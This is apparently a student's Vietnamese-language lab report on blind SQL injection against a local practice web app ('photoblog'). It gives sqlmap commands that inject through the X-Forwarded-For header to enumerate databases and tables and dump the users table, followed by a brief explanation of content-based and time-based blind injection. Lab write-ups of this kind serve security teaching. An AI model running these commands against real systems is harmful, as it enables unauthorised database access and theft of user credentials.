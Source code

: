 # Report lab 2 SQL Injection

Tương tự lab trước, thử nhập dấu ' vào trước 1 trên id

![image](https://user-images.githubusercontent.com/61901474/163430883-02d0ab17-0a11-4b6a-9ecc-70f5e6d2cd54.png)

-> không thấy hiện thông báo lỗi nào -> Blind SQL injection

-> Sử dụng sqlmap để tấn công

- Kiểm tra database có trong server
```
sqlmap -u "http://192.168.67.133/cat.php?id=1" --headers="X-forwarded-for:1*" --dbs
```
![image](https://user-images.githubusercontent.com/61901474/163430027-95784f6b-1401-4a5b-afbd-8199a745f132.png)


![image](https://user-images.githubusercontent.com/61901474/163430038-c0f5349c-6a2c-4372-83b9-d444385d051d.png)

- Kiểm tra các bảng của database photoblog
```
sqlmap -u "http://192.168.67.133/cat.php?id=1" --headers="X-forwarded-for:1*" --tables -D photoblog --smart --batch
```
![image](https://user-images.githubusercontent.com/61901474/163430062-2220d0dc-8ec2-43e9-841e-e2e5e3e92213.png)

![image](https://user-images.githubusercontent.com/61901474/163430078-6f6da365-d127-4ac3-9ddb-ce3186b8a72c.png)

- Xem dữ liệu của bảng users
```
sqlmap -u "http://192.168.67.133/cat.php?id=1" --headers="X-forwarded-for:1*" --dump -T users -D photoblog --smart --batch
```
![image](https://user-images.githubusercontent.com/61901474/163430093-0c7ad3ee-c878-42da-81a1-e87ea48e72cd.png)

![image](https://user-images.githubusercontent.com/61901474/163430101-0863ffdf-2080-46f0-872a-b8ee64b51b1a.png)

- Blind SQL injection: Blind SQL injection là một kiểu tấn công SQL injection truy vấn cơ sở dữ liệu sử dụng các mệnh đề để đoán biết. Cách tấn công này thường được sử dụng khi mà một ứng dụng (web, apps) được cấu hình để chỉ hiển thị những thông báo lỗi chung chung, không hiển thị ra lỗi của SQL. Có hai biến thể chính để thực hiện Blind SQL injection: * Blind SQL injejction dựa vào nội dung phản hồi. * Blind SQL injejction dựa vào độ trễ của thời gian phản hồi.
